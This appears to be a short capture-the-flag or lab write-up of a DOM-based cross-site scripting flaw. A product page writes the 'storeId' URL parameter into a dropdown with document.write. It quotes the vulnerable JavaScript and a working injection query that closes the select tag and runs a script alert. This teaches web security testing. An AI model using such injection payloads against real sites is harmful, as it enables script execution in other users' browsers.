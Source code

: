 # Analysis
The product page shows that the script gets a value called `storeId` from the `location.search` and then uses it uses it in `document.write` to show the stock. 

Adding a `storeId` with a random string to the URL query will show the string in the dropdown menu. 

Javascript:
```
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
```

XSS Query:
```
product?productId=2&storeId="><script>alert(0)</script>
```